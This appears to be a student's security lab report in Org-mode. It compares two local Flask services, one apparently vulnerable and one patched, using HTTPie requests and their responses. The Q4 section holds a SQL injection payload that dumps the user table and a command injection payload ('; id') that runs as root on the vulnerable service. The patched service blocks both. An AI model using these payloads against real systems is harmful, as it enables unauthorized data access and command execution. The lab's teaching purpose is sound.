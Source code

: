 #+title: L3
#+author: Alvaro Guerrero Jiménez

* Q1
* Q3
#+begin_src 
$ http -v localhost:5000/user username==alice
GET /user?username=alice HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5000
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: close
Content-Length: 51
Content-Type: application/json
Date: Tue, 21 Oct 2025 15:40:03 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

[
    {
        "fullname": "Alice A",
        "id": 1,
        "username": "alice"
    }
]

$ http -v localhost:5001/user username==alice
GET /user?username=alice HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5001
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: close
Content-Length: 51
Content-Type: application/json
Date: Tue, 21 Oct 2025 15:40:13 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

[
    {
        "fullname": "Alice A",
        "id": 1,
        "username": "alice"
    }
]
#+end_src

* Q4
** SQL injection

#+begin_src 
$ http -v localhost:5000/user username=="' OR 1 = 1 --"
GET /user?username=%27+OR+1+%3D+1+-- HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5000
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: close
Content-Length: 96
Content-Type: application/json
Date: Tue, 21 Oct 2025 15:41:24 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

[
    {
        "fullname": "Alice A",
        "id": 1,
        "username": "alice"
    },
    {
        "fullname": "Bob B",
        "id": 2,
        "username": "bob"
    }
]

$ http -v localhost:5001/user username=="' OR 1 = 1 --"
GET /user?username=%27+OR+1+%3D+1+-- HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5001
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: close
Content-Length: 3
Content-Type: application/json
Date: Tue, 21 Oct 2025 15:41:16 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

[]
#+end_src

** Command injection
#+begin_src 
$ http -v localhost:5000/ping host=='8.8.8.8; id'
GET /ping?host=8.8.8.8%3B+id HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5000
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: close
Content-Length: 295
Content-Type: text/html; charset=utf-8
Date: Tue, 21 Oct 2025 15:46:13 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

<pre>PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=42.6 ms

--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.627/42.627/42.627/0.000 ms
uid=0(root) gid=0(root) groups=0(root)</pre>


$ http -v localhost:5001/ping host=='8.8.8.8; id'
GET /ping?host=8.8.8.8%3B+id HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: localhost:5001
User-Agent: HTTPie/3.2.4



HTTP/1.1 400 BAD REQUEST
Connection: close
Content-Length: 12
Content-Type: text/html; charset=utf-8
Date: Tue, 21 Oct 2025 15:46:17 GMT
Server: Werkzeug/3.1.3 Python/3.10.19

Invalid host
#+end_src
